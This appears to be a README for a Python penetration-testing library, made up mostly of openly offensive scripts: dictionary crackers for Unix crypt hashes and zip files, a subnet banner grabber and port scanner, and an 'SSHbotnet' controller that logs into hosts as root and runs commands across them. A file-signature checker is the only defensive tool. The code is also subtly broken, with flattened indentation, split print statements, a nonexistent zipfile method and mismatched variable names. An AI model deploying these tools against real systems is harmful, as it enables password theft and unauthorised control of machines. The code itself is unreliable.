

pentestlib: a python penetration testing library
@author luisxciv
The goal of this project is to build a library of pentest python scripts. You can find all of the scripts inside my pentestlib repo @ github.com/luisxciv/pentestlib.
third-party libraries: Some of the scripts require the use of third-party libraries, you can use pip to easily install modules.
import nmap import pydf import python-nmap import pygeoip import mechanize import BeautifulSoup4 import python-bluez import bluetooth import python-obexftp
unix password-cracker
"Unix stores the salt as the first two characters of the encrypted password." which is a poor salting technique. Using the same crypt() module we can do a dictionary attack by hashing the words and identifying the salt
Usage: add the /etc/passwd path
import crypt
def testpass(password):
salt = password[0:2] #This is assuming you know how the password was salted,
#UNIX uses crypt() which adds the same 2 char salt to every password
dictionaryfile = open('dictionary.txt', 'r')
for word in dictionaryfile.readlines():
word = word.strip('\n')
cryptword = crypt.crypt(word,salt)
if cryptword == password:
print
'found password:' + word + "\n"
return
print
'password not found'
return
def main():
passwordfile = open('passwords.txt')
for line in passwordfile.readlines():
if ":" in line:
username = line.split(':')[0]
password = line.split(':')[1].strip(' ')
print
'cracking password for' + username
testpass(password)
if __name__ == '__main__':
main()
anti-masquerade
You can fake the first few bytes of a file to masquerade as another filetype The purpose of this script is to check deeper into the file's offset to identify the common signatures from a signature repository. This code is written by EnergyWolf from 0x00sec and has been updated for Python3.

import os
from urllib.request import urlopen
import pickle as Pickle
from argparse import ArgumentParser
import binascii
from bs4 import BeautifulSoup
# the {} will be used to dynamically enter different ints with .format()
URL = "http://www.filesignatures.net/index.php?page=all¤tpage={}"
PATH = os.path.expanduser('./file_sigs.pickle')
signatures = [] # contains all (signatures, descriptions)
def compile_sigs():
""" Compile the list of file signatures """
global signatures, PATH
if not os.path.exists(PATH):
for i in range(19): # 19 pages of signatures on the site
response = urlopen(URL.format(i))
html = response.read() # get the html as a string
soup = BeautifulSoup(html, "lxml") # parse the source
t_cells = soup.find_all("td", {"width": 236}) # find td elements with width=236
for td in t_cells:
# append (signature, description) to signatures
sig = str(td.get_text()).replace(' ', '').lower() # strip spaces, lowercase
desc = str(td.find_next_sibling("td").get_text())
signatures.append([sig, desc])
# pickle them sigs
with open(PATH, 'wb') as f:
Pickle.dump(signatures, f)
else:
with open(PATH, 'rb') as f:
signatures = Pickle.load(f)
def check_sig(fn):
""" Hex dump the file and search for signatures """
with open(fn, 'rb') as fn:
dump = str(binascii.hexlify(fn.read()))[2:-1]
res = []
for sig, desc in signatures:
if sig in dump:
res.append([sig, desc, dump.find(sig)])
res.sort(key=lambda x: x[2]) # sort results by offset in file
return res # [(sig, desc, offset), (sig, desc, offset), ... etc.]
# script really starts here
if __name__ == "__main__":
parser = ArgumentParser()
parser.add_argument("file_path", help="Detect signatures in file at this path")
args = parser.parse_args()
print("[*] Checking File for Known Signatures")
print("[*] This may take a moment...")
compile_sigs()
results = check_sig(args.file_path)
if results:
# find longest signature, and desc for output formatting purposes
big_sig = len(max([i[0] for i in results], key=lambda x: len(x)))
big_desc = len(max([i[1] for i in results], key=lambda x: len(x)))
print("\n[*] File Signature(s) detected:\n")
for sig, desc, offset in results:
s = ("[+] {0:<%ds} : {1:<%d} {2:<20s}" % (big_sig, big_desc)).format(sig, desc, "<- Offset: "+str(offset))
print(s)
print("\n[*] First candidate signature:\n")
sig, desc, offset = results[0][0],results[0][1],results[0][2]
s = ("[+] {0:<%ds} : {1:<%d} {2:<20s}" % (big_sig, big_desc)).format(sig, desc, "<- Offset: " + str(offset))
print(s)
else:
print("\n[!] No File Signature Detected.\n")
vulnerable-banners
The purpose of banner grabbing is to perform vulnerability analysis by obtaining information provided by the network host. The script iterates through a list of ports and range a subnet of IP's using range(0,255) and uses the socket.recv module to read the first 2048 bytes of the banner to check it against a vulnerable list of vulnerable banners.
Usage: bannergrabber.py vulnerablebanners.txt
import socket
import sys
def retbanner(ip, port):
try:
socket.setdefaulttimeout(2)
s = socket.socket()
s.connect((ip, port))
banner = s.recv(2048)
return banner
except:
return
def main():
if len(sys.argv) == 2:
filename = sys.argv[1]
print
"reading vulnerabilities from" + filename
portlist = [21,22,80,443]
for x in range(1,255):
ip = '192.168.1.' + str(x)
for port in portlist:
banner = retbanner(ip, port)
if banner:
print
'[+]' + ip + ":" + banner
vulns(banner, filename)
def vulns(banner, filename):
f = open(filename, 'r')
for line in f.readlines():
if line.strip('\n') in banner:
print
"Server is vulnerable" +banner.strip('/n')
if __name__ == '__main__':
main()
zip dictionary attack
The zipfile module allows us to interact with .zip files so here's how simple a dictionary attack can be
TODO: add parsing args and error handling
import zipfile
from threading import Thread
def extraction(file, password):
try:
file.extractfile(pwd = password)
print
"Found password" + password
except:
pass
def main():
file = zipfile.ZipFile('secret.zip')
passfile = open('dictionary.txt')
for line in passfile.readlines():
password = line.strip('\n')
t = Thread(target=extraction, args=(file, password))
t.start()
if __name__ == '__main__':
main()
Port scanner/Banner Grabber
Scans and host and lists open ports. It also has a banner grabber to get information about the port. If you're going to portscan a system or a network don't use this script.Nmap is a powerful port scanning tool with lots of functionality. If you're not using nmap already then check it out at https://nmap.org/
Usage: python portscanner.py -h 10.10.10.10 -p 22 80 443
import optparse
from threading import Thread
from socket import *
def connscan(tgtHost, tgtPorts):
try:
connskt = socket(AF_INET, SOCK_STREAM)
connskt.connect((tgthost, tgtport))
connskt.send('Hello\r\n')
results = connskt.recv(100)
print
'%d/tcp open' % tgtport
print
'Port response' + str(results)
connskt.close()
except:
print
'%d/tcp closed' % tgtport
def portscan(tgthost, tgtPorts):
try:
tgtip = gethostbyname(tgthost)
except:
print('could not get host by name')
return
try:
tgtname = gethostbyaddr(tgtip)
print('scan results for' + tgtname[0])
except:
print('could not get host by ip')
setdefaulttimeout(1)
for tgtport in tgtPorts:
t = Thread(target=connscan, args=(tgthost,tgtPorts))
t.start()
def main():
parser = optparse.OptionParser('usage %prog -H' +\
'target_host -p target_port')
parser.add_option('-H', dest='tgthost', type='string', \
help = 'specify target port')
parser.add_option('-p', dest='tgtport', type='int', \
help = 'specify port number')
tgthost = optparse.Option.tgthost
tgtport = optparse.Option.tgtport
if (tgthost == None) or (tgtport == None):
print
parser.usage
exit(0)
portscan(tgthost, tgtport)
if __name__ == '__main__':
main()
SSHbotnet
SSH worms have proven to be very successfull. This ssh worm brute forces user credentials against a tagret. Because SSH clients require some user itneraction, such as adding the RSA fingerprint to the list of known hosts we need to use a third party module called "pexpect" that allows the script to wait for an output and respond accordingly
Usage: python ssh_botnet.py
import pxssh
class Client:
def __init__(self, host, user, password):
self.host = host
self.user = user
self.password = password
self.session = self.connect()
def connect(self):
try:
ssh = pxssh.pxssh()
ssh.login(self.host, self.user, self.password)
return ssh
except Exception:
print ('[-] Error Connecting' )
print (Exception)
def send_command(self, cmd):
self.session.sendline(cmd)
self.session.prompt()
return self.session.before
def botnet_command(command, botnet):
for client in botnet:
output = client.send_command(command)
print('[*] Output from ' + client.host )
print ('[+] ' + output + '\n')
def add_client(host, user, password, botnet):
client = Client(host, user, password)
botnet.append(client)
def main():
botnet = []
add_client('10.10.10.110', 'root', 'toor', botnet)
botnet_command('uname -v', botnet)
if __name__ == '__main__':
main()